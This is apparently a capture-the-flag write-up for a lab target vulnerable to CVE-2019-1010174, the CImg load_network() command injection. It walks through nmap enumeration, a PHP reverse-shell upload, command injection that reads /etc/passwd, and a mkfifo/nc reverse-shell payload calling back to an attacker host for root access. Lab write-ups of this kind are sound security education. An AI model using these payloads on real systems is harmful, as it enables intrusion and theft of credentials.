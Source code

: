 ```yaml
---
layout: post
title: CVE-2019-1010174
feature-img: "assets/img/portfolio/CVE-2019-14813.png"
img: "assets/img/portfolio/CVE-2019-14813.png"
date: 14 jun 2021
#tags: [Lorem, Ipsum]
---
```


[CVE-2019-14813](https://echoctf.red/target/23)


This is a target with direct implementation of the CVE-2019-1010174 for the CImg Library v.2.3.3 and is here to assist in developing exploits for this vulnerability.

Description:
CImg The CImg Library v.2.3.3 and earlier is affected by a command injection vulnerability. This attack can lead to RCE. The vulnerable code can be found in the load_network() function. Loading an image from a user-controllable url can lead to command injection, because no string sanitization is done on the url.

Environment details:
The system is accessible at 10.0.160.248 and runs a web server and a vulnerable binary utilizing CImg.

Flags can be obtained by either accessing directly the service 375/tcp or through the web interface at http://10.0.160.248. Flags can be found at the usual places:

/root/ETSCTF
/etc/passwd gecos
/etc/shadow password hash
env variable
The source for the service listening on 375/tcp is the following

[SecurityExploits-CImg](https://github.com/github/security-lab/tree/master/SecurityExploits/CImg)

```
#undef cimg_display
#define cimg_display 0
#include "CImg.h"
using namespace cimg_library;
#include 
#include 

// To compile and run:
//
// g++ -I./CImg poc.c -o poc
// ./poc
//
// Notice that the file ~/CImg-RCE has now been created.

int main(int argc, char **argv) {
  CImg<> img;
  std::cout << "Provide image url: " << std::endl;
  for (std::string line; std::getline(std::cin, line);) {
        std::cout << line << std::endl;
        img.assign(line.c_str());
  }
  return 0;
}
```

References:
[CVE-2019-1010174](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1010174)
[Fix commit](https://framagit.org/users/sign_in)


### Enumartion:

nmap -sC -sV  10.0.40.0 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-19 11:35 IDT
Nmap scan report for 10.0.40.0
Host is up (0.076s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Scrap Images from URLs



### Http

i have web page with upload forum
![](assets/img/CVE-2019-1010174.png)

*When in doubt, check /images/* 

setting python server and check if we can grab the file:

lets try to upload php rev shell:  [rev_shell](https://www.revshells.com/)

![](assets/img/CVE-2019-1010174_upload.png)

and i have the file in /images/

### RCE 

opening listenner, got shell as www-data

```
nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.40.0 33426
Linux CVE-2019-1010174.echocity-f.com 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64 GNU/Linux
 08:46:10 up 24 days, 10:00,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

### Privilege escalation

runing proccess:

```
ps -aux |  grep root
root         1  0.0  0.1  17964  2412 ?        Ss   Jun13   0:00 /bin/bash /entrypoint.sh /usr/local/bin/CImg.sh
root        29  0.0  0.3 220900  7128 ?        Ss   Jun13   0:02 php-fpm: master process (/etc/php/7.0/fpm/php-fpm.conf)
root        45  0.0  0.0 159540  1664 ?        Ss   Jun13   0:00 nginx: master process /usr/sbin/nginx
root        47  0.0  0.1  17944  2380 ?        S    Jun13   0:00 /bin/bash /usr/local/bin/CImg.sh
root        48  0.0  0.1  24584  3020 ?        S    Jun13   0:00 socat TCP-LISTEN:375,reuseaddr,fork EXEC:/usr/local/bin/CImg,stderr
www-data 10109  0.0  0.0  11108   956 pts/0    S+   06:58   0:00 grep root
```

opened ports:

```
www-data@CVE-2019-1010174:/$  ss -ant
ss -ant
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN     0      5            *:375                      *:*
LISTEN     0      128    127.0.0.11:42171                    *:*
LISTEN     0      128          *:80                       *:*
```

port 375 is listening, after cheking it i got this:

```
 nc 127.0.0.1 375 -v
nc 127.0.0.1 375 -v
localhost [127.0.0.1] 375 (?) open
Provide image url: 

[CImg] *** CImgIOException *** [instance(0,0,0,0,(nil),non-shared)] CImg<float>::load(): Failed to open file ''.
terminate called after throwing an instance of 'cimg_library::CImgIOException'
  what():  [instance(0,0,0,0,(nil),non-shared)] CImg<float>::load(): Failed to open file ''
```

its same service as i got RCE to machine but diffrent port. 

```
$ nc 10.0.40.0 375
Provide image url: 
```
same service but without http.

i focused in:
```
CImg The CImg Library v.2.3.3 and earlier is affected by: command injection. The impact is: RCE. The component is: load_network() function. The attack vector is: Loading an image from a user-controllable url can lead to command injection, because no string sanitization is done on the url. The fixed version is: v.2.3.4.

my next step is to create bash file that ill will run it while im uploading. 

```
so i tried to add $(command_injection)

```
nc 10.0.40.0 375
Provide image url: 
http://10.10.0.10:8000/cat.jpeg $(cat /etc/passwd)
```

and its working

```
/cat.jpeg%20root:x:0:0:root:/root:/bin/bash%0Adaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin%0Abin:x:2:2:bin:/bin:/usr/sbin/nologin%0Asys:x:3:3:sys:/dev:/usr/sbin/nologin%0Async:x:4:65534:sync:/bin:/bin/sync%0Agames:x:5:60:games:/usr/games:/usr/sbin/nologin%0Aman:x:6:12:man:/var/cache/man:/usr/sbin/nologin%0Alp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin%0Amail:x:8:8:mail:/var/mail:/usr/sbin/nologin%0Anews:x:9:9:news:/var/spool/news:/usr/sbin/nologin%0Auucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin%0Aproxy:x:13:13:proxy:/bin:/usr/sbin/nologin%0Awww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin%0Abackup:x:34:34:backup:/var/backups:/usr/sbin/nologin%0Alist:x:38:38:Mailing%20List%20Manager:/var/list:/usr/sbin/nologin%0Airc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin%0Agnats:x:41:41:Gnats%20Bug-Reporting%20System%20(admin):/var/lib/gnats:/usr/sbin/nologin%0Anobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin%0A_apt:x:100:65534::/nonexistent:/bin/false%0AETSCTF:x:1000:65534:ETSCTF_edc6f858710d7f35ae577eb5b349ec70:/home/ETSCTF:/bin/bash HTTP/1.1" 404 -
10.0.40.0 - - [19/Jul/2022 12:15:23] "GET /cat.jpeg  HTTP/1.1" 200 -
```


lets try to add rev shell:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 5555 >/tmp/f

nc 10.0.40.0 375
Provide image url: 
http://10.10.0.10:8000/cat.jpeg $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 5555 >/tmp/f)
````
opened listener in my machine:

```
nc -lnvp 5555                                                                                                                                                                                130 ⨯
Listening on 0.0.0.0 5555
Connection received on 10.0.40.0 46788
# id
uid=0(root) gid=0(root) groups=0(root)
```

